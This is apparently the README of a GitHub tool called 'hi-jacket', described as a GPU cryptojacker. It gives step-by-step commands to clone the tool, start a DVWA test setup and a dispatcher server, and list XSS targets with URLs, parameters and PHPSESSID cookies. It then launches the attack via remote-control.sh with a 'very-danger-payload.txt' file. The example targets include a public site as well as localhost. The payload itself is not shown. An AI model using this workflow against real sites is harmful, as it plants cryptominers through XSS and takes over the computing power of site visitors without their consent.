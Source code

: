 # hi-jacket
Hi-Jacket - A GPU cryptojacker script

# Getting Started
First of all clone the repository
```shell
git clone https://github.com/ZappaBoy/hi-jacket.git
cd hi-jacket
```
## Run testing environment
Run the testing enviroment through `docker-compose`.
```shell
cd ./remote-control
chmod +x ./run-test-environment.sh
./run-test-environment.sh
```
This will run a `DVWA` instance with its `mysql` database in two containers. 
After this, it will automatically run the dispatcher server (`dispatcher.py`).

# Use the remote control
Before running the remote control you need to define the attack targets in the `remote-control/sites-urls.txt`.
Simply edit the file using tabs as spacer:

1. Insert in the first column the attack method, you can choose between `GET` `POST` `ALL` `AUTO` `DEFAULT`;
2. In the second column insert the base url of the attack;
3. In the third column insert the string prams for the `GET` methods and the body for the `POST` one;
4. (optional) In the last column you can insert the cookies such as the `PHPSESSID`.

You can also use the hashtag (#) to comment a line and avoid the execution of the attack on that target.
Here is an example:

```shell
GET         http://xss-game.appspot.com                                     /level1/frame?query=XSS
POST        http://localhost:8060/vulnerabilities/xss_s/index.php           txtName=hijacked&mtxMessage=XSS&btnSign=Sign+Guestbook      PHPSESSID="YOURPHPSESSID;;security=low"
ALL         http://localhost:8060/vulnerabilities/xss_s/index.php
AUTO        http://xss-game.appspot.com                                     /level1/frame?query=XSS
DEFAULT     http://xss-game.appspot.com                                     /level1/frame?query=XSS
# This is a comment. The following line is ignored.
# GET     http://xss-game.appspot.com                                     /level1/frame?query=XSS
```

# Run the attack
Once defined the targets you can run the attack using the `remote-control.sh`
```shell
chmod +x ./remote-control.sh
./remote-control.sh -s -i -p very-danger-payload.txt
```

